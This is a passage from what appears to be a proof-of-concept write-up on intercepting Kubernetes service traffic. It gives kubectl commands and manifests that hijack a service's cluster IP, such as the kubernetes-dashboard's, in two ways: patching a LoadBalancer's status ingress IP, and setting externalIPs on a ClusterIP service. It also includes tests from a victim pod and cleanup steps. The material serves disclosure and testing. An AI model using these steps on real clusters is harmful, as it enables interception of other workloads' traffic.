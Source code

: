 ```
  - name: https
    port: 443
    protocol: TCP
    targetPort: 8443
  selector:
    app: echoserver
  type: LoadBalancer
EOF
kubectl proxy --port=8080 &
sleep 3
curl -k -v -XPATCH  -H "Accept: application/json" -H "Content-Type: application/merge-patch+json" 'http://127.0.0.1:8080/api/v1/namespaces/kubeproxy-mitm/services/mitm-service-lb/status' -d '{"status":{"loadBalancer":{"ingress":[{"ip":"10.233.36.240"}]}}}'
pkill kubectl
```
Test if the MITM works
```
# node -> clusterIP
curl -sv https://10.233.36.240 -k
# pod -> clusterIP
kubectl exec victim-client -- curl -sv https://10.233.36.240 -k
```
Cleanup
```
kubectl delete -n kubeproxy-mitm svc/mitm-service-lb
```

### 2b) k8s service traffic interception using service type ClusterIP + externalIPs

Find a service to attack, in my testing I chose kubernetes-dashboard
```
kubectl get -n kube-system svc/kubernetes-dashboard
# NAME                   TYPE        CLUSTER-IP     EXTERNAL-IP   PORT(S)   AGE
# kubernetes-dashboard   ClusterIP   10.233.36.240   <none>        443/TCP   87m
```
Test if the service is working before the MITM
```
# node -> clusterIP
curl -sv https://10.233.36.240 -k
# pod -> clusterIP
kubectl exec victim-client -- curl -sv https://10.233.36.240 -k
```
Deploy the MITM
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-service-eip
  namespace: kubeproxy-mitm
spec:
  ports:
  - name: https
    port: 443
    protocol: TCP
    targetPort: 8443
  selector:
    app: echoserver
  type: ClusterIP
  externalIPs:
    - 10.233.36.240
EOF
```
Test if MITM works